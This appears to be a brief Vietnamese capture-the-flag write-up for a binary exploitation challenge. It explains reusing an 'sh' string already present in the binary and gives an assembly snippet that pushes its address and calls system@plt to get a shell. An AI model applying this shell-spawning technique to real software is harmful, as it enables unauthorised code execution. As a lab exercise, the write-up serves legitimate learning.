

# solution

trong binary đã có sẵn string `sh`, 

```c
void NEVER_CALL()
{
system("echo how do you get here? you won find sh"); // sh is here
}
```
chỉ cần gọi system("sh") là có shell rồi

```assembly
push 0x80487D3
call 0xffffe3eb  ; địa chỉ system@plt - địa chỉ lệnh call = 0xffffe3eb
```



excute sh thành công
